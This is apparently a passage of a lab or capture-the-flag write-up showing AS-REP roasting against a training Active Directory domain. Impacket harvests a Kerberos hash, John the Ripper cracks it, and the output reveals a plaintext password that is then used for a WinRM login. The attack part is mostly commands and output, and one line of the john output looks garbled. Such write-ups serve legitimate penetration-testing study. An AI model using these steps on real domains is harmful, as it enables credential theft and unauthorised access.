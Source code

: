     impacket-GetNPUsers lustrous.vl/ -dc-ip lusdc.lustrous.vl -usersfile users.txt

    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

    $krb5asrep$23$ben.cox@LUSTROUS.VL:<redacted>
    [-] User rachel.parker doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User tony.ward doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User wayne.taylor doesn't have UF_DONT_REQUIRE_PREAUTH set

From the hash, it was possible to crack the plaintext password of the user.

    john ben.cox.hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 07/03/24 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    <redacted>         ($krb5asrep$23$ben.cox@LUSTROUS.VL)

After obtaining the password, we can attempt to access the hosts through protocols such as SMB and WinRM. And it was found that ben.cox user could login to the lusms host via the WinRM

`WINRM      10.10.170.70   5985   LUSMS            [+] lustrous.vl\ben.cox:Trinity1 (Pwn3d!)`

On the Desktop, we found an xml representation of a PSCredential Object file named admin.xml.

![alt text](../assets/images/Screenshot_2024-07-02_22_30_05.png)

# First Host
I used this [blog](https://systemweakness.com/powershell-credentials-for-pentesters-securestring-pscredentials-787263abf9d8) for got password successfully from admim

    $user = "LUSMS\Administrator" 
